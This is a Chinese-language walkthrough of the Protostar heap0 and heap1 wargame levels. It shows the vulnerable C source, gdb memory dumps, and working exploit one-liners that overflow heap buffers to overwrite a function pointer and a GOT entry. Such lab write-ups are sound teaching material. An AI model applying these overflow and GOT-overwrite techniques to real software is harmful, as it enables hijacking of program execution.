 # Heap

## Protostar Heap0

### About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);

  f->fp();
}
```

就像栈一样，堆内存是连续分配的。这意味着如果我们越过缓冲区写入数据，将覆盖另一个数据结构。定义了两个结构，其中`f->fp`是一个**函数指针**，指向`nowinner`函数，在程序的最下面进行了一次调用。有个`strcpy`函数将传入的字符串写入`d->name`中。

我们在函数返回前下个断点，查看一下`d`和`f`的地址。

```javascript
(gdb) b *0x08048500
Breakpoint 1 at 0x8048500: file heap0/heap0.c, line 40.

(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 AAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed

Breakpoint 1, 0x08048500 in main (argc=134513804, argv=0x2) at heap0/heap0.c:40
40    in heap0/heap0.c
```

可以看到`d`和`f`的地址属于堆，然后分别查看内容，**d的内容**就是我们传入的**AAAA**，**f**的内容是**nowinner函数的地址**。

```javascript
(gdb) info proc map
process 1605
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
     0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
     0x804a000  0x806b000    0x21000          0           [heap]
    0xb7e96000 0xb7e97000     0x1000          0

(gdb) x/30x 0x804a008
0x804a008:    0x41414141    0x00000000    0x00000000    0x00000000
0x804a018:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a028:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a038:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a048:    0x00000000    0x00000011    0x08048478    0x00000000
0x804a058:    0x00000000    0x00020fa9    0x00000000    0x00000000
0x804a068:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a078:    0x00000000    0x00000000

(gdb) x/10x 0x804a050
0x804a050:    0x08048478    0x00000000    0x00000000    0x00020fa9
0x804a060:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a070:    0x00000000    0x00000000

(gdb) disass nowinner
Dump of assembler code for function nowinner:
0x08048478 <nowinner+0>:    push   ebp
0x08048479 <nowinner+1>:    mov    ebp,esp
0x0804847b <nowinner+3>:    sub    esp,0x18
0x0804847e <nowinner+6>:    mov    DWORD PTR [esp],0x80485dd
0x08048485 <nowinner+13>:    call   0x8048398 <puts@plt>
0x0804848a <nowinner+18>:    leave
0x0804848b <nowinner+19>:    ret
End of assembler dump.

(gdb) p 0x804a050 - 0x804a008
$1 = 72
```

二者地址**相差72个字节**，所以我们通过填充72个字符，后面跟上**winner\(\)的地址**（通过`objdump -t heap0` 查看），就可以将`f->fp`改成指向winner函数，然后进行调用。

```text
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "print('A'*72 + '\x64\x84\x04\x08')")
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Protostar heap1

### About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

在此程序中，我们看到已分配了两个`Internet`结构。每个结构都包含一个单独分配的`name`指针。

```javascript
(gdb) r AAAA 0000
Starting program: /opt/protostar/bin/heap1 AAAA 0000

Breakpoint 1, main (argc=3, argv=0xbffff814) at heap1/heap1.c:34
34	heap1/heap1.c: No such file or directory.
	in heap1/heap1.c
// 查看堆地址，得到 0x804a000
(gdb) info proc map
process 1617
cmdline = '/opt/protostar/bin/heap1'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0
// 查看一下堆中的内容
(gdb) x/64wx  0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x30303030	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
```

结构体internet中有一个**指向char类型的指针** `name`，在程序的最后进行了两次strcpy操作，可以实现溢出。如果我们将`i2->name` **的地址**进行覆盖，通过第二个strcpy能够做到任意位置写入数据。

我们可以看到第二个`strcpy`函数的后面调用了`puts`函数（源文件是用的`printf`，这里编译器给优化成了`puts`），我们可以**将GOT表进行覆盖**。

```javascript
0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
0x08048566 <main+173>:	leave
---Type <return> to continue, or q <return> to quit---
0x08048567 <main+174>:	ret
End of assembler dump.
// 可以看到，调用puts时进行了一次跳转，目的地址是0x8049774，这个地址的内容是下一条指令的地址
// 这里涉及到了动态链接，暂时先不介绍了，但是我们知道如果将地址是0x8049774的内容改成winner函数的地址
// 就可以调用winner了
(gdb) disass 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.

(gdb) x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483d2

(gdb) p winner
$1 = {void (void)} 0x8048494 <winner>
```

### exp

```shell
user@protostar:/opt/protostar/bin$ ./heap1 `echo -e "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"` `echo -e "\x94\x84\x04\x08"`
and we have a winner @ 1596724910
```

